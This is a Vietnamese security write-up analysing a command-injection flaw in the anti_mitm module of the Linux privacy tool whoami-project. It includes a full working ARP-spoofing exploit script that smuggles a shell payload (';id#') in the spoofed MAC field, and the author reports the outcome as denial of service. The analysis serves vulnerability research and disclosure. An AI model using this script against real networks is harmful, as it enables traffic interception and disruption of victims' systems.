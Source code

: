 ```yaml
---
title: "ARPSPOOF"
date: 2024-09-11
---
```


# Mở đầu
Trong bài viết này chúng ta sẽ cùng đi qua 1 open-source project khá nổi nhưng hiện giờ không còn maintain nữa đó là [whoami-project](https://github.com/owerdogan/whoami-project).
Đây là 1 công cụ về bảo mật cá nhân "giúp nâng cao quyền riêng tư và ẩn danh" trên các hệ điều hành Linux. Project này có 1 module tên là anti_mitm cho việc "Automatically bans the attacker when you come under a Man In The Middle attack", nhưng mà module này lại có 1 lỗ hổng khá nghiêm trọng mà mình nhận thấy và phía dưới ta sẽ cùng phân tích kĩ hơn.
                                                                                                                                      
## Setup môi trường
Trong scenario của attack này, ta sẽ có 2 machine:
- Attacker: Attacker machine mình sẽ sử dụng Kali VM với IP 192.168.98.132
- Victim: Phía victim machine sẽ là Ubuntu với IP 192.168.98.133
- Cài đặt project ở bên máy victim:

![image](https://gist.github.com/user-attachments/assets/279e460c-0242-4dc9-b15a-96670767d287)

# Phân tích
## Cấu trúc project
Sau khi cài đặt xong, ta khởi chạy chương trình như bên dưới và ta có thể thấy sẽ có vài option cho các arguments mà project cho phép.  

![image](https://gist.github.com/user-attachments/assets/de2140e6-07c4-4f8a-a7c4-7e59ff7843c3)

Khi chạy lệnh "sudo kali-whoami --start" ta sẽ được menu trông như sau:

![image](https://gist.github.com/user-attachments/assets/7fbba0cf-3736-4040-8725-a038dae73db9)

Có vẻ như trong menu trên thì đó là các module, function mà ta có thể chọn để sử dụng, thay vì nghịch thử các options thì mình đi tìm thẳng source code cho các function trên luôn, ở phía dưới sẽ là cấu trúc thư mục của project, ta có thể thấy là có vẻ như source code của các module, function trên sẽ nằm ở thư mục whoami-project/assets/scripts/

![image](https://gist.github.com/user-attachments/assets/80e512b7-f714-4d1b-9dec-b38b13ad7f35)

Sau 1 hồi đọc hết tất cả các file trong thư mục whoami-project/assets/scripts/, thì có 1 file mình để ý nhất đó là anti_mitm, và dưới đây là đoạn code của nó:

![image](https://gist.github.com/user-attachments/assets/08e6a403-de64-49b8-bc8d-650f993f1ae2)

Module này sẽ dùng cho việc ngăn việc bị tấn công Man in the middle (MITM) bằng cách kiểm tra những gói ARP gửi đến và nếu như có dấu hiệu cho việc ARP spoofing thì sẽ viết ra rule firewall để drop hết tất cả các requests đến từ địa chỉ MAC spoofing

## Phân tích luồng thực thi
Đọc file kali-whoami.sh, tức là file dùng để khởi động chương trình, như bên dưới ta sẽ thấy các options, các module, function của project được list ra:

![image](https://gist.github.com/user-attachments/assets/ad1912d3-b1f8-4ec7-bcbe-77cc293cfaa0)

Và dưới đây sẽ là đoạn code phụ trách cho việc khởi động module anti_mitm:

![image](https://gist.github.com/user-attachments/assets/5993e97d-46e1-402c-b5cc-ce2a16ce08c5)

Ta thấy chương trình sẽ cần ta chạy ở quyền root, và nếu ta chọn module anti_mitm thì sẽ tương đương với việc chạy command:
```
sudo python3 /usr/share/kali-whoami/assets/scripts/anti_mitm
```
Giờ ta sẽ đi vào đoạn code và cách hoạt động của file anti_mitm.

## Phân tích lỗ hổng

![image](https://gist.github.com/user-attachments/assets/663b76b7-75d1-4046-9af3-72a8131fd183)

![image](https://gist.github.com/user-attachments/assets/b76a6475-0dfe-4243-9eec-ceafa63b8080)

![image](https://gist.github.com/user-attachments/assets/938dce10-4330-4d81-98b4-7fdce3cd4be5)

![image](https://gist.github.com/user-attachments/assets/3e3ae611-6a8b-4706-80cb-05ab2b9762a3)

![image](https://gist.github.com/user-attachments/assets/76f1a445-d809-4dd6-ad10-1bac2863a9af)

# Khai thác

Nhưng mà quan trọng là nếu ta thực sự có thể command injection được vào đoạn command kia thì ta sẽ thành được cả root của machine, đơn giản là vì đoạn code này sử dụng scapy, mà scapy sử dụng Python socket library để tạo raw sockets, và để tạo được raw sockets thì sẽ phải cần quyền của root.

Ref: https://stackoverflow.com/questions/22421290/scapy-operation-not-permitted-when-sending-packets#:~:text=Scapy%20needs%20root%20privileges%20to,the%20Linux%20raw%20man%20pages

Đây sẽ là đoạn code exploit của mình:
```
import scapy.all as scapy 
import time 
  
def get_mac(ip): 
    arp_request = scapy.ARP(pdst = ip) 
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff") 
    arp_request_broadcast = broadcast / arp_request 
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0] 
    return answered_list[0][1].hwsrc 
  
def spoof(target_ip, spoof_ip): 
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip), psrc = spoof_ip, hwsrc=";id#") # Payload ở đây
    scapy.send(packet, verbose = False) 
  
  
def restore(destination_ip, source_ip): 
    destination_mac = get_mac(destination_ip) 
    source_mac = get_mac(source_ip) 
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac) 
    scapy.send(packet, verbose = False) 
      
  
target_ip = "192.168.98.133"
gateway_ip = "192.168.98.1"
  
try: 
    sent_packets_count = 0
    while True: 
        spoof(target_ip, gateway_ip) 
        spoof(gateway_ip, target_ip) 
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="") 
        time.sleep(2)
  
except KeyboardInterrupt: 
    print("\nCtrl + C pressed.............Exiting") 
    restore(gateway_ip, target_ip) 
    restore(target_ip, gateway_ip) 
    print("[+] Arp Spoof Stopped") 

```
Đoạn code trên sẽ gửi packet kèm với địa chỉ MAC malicious như trên để test, mỗi 2 giây đoạn code sẽ gửi packet này lại 1 lần.

![image](https://gist.github.com/user-attachments/assets/912db067-6bec-4e3e-a206-fb88a00531b0)

Sau khi thực thi đoạn code exploit thì ở bên phía attacker, nếu như ta gọi đến module đó, và quan trọng là module này chắc chắn phải ở quyền của root thì mới có thể chạy được ở phía victim:

![image](https://gist.github.com/user-attachments/assets/1576e27c-06c1-4066-bac5-1905b38a8bdc)

Ta thấy sau khi thực hiện ARP attack, payload của ta sẽ được bytes object và khi đi vào code sẽ trở thành cộng chuỗi với bytes và xảy ra lỗi. 

Vậy liệu có cách để mà làm cho payload này trở thành hoạt động được không, nó cũng đồng nghĩa với việc là ta cần phải làm cho payload tự động decode lại thành string, nhưng đáng buồn là ta chỉ làm được 9 điểm thôi, câu điểm 10 để lại vậy =)))) Impact đến đây dừng lại ở DOS nhưng ít ra ta cũng có cách để ngăn cho rule firewall không được viết ra khi victim sử dụng service. 
                                                                                                                              
                                                                                                                                      
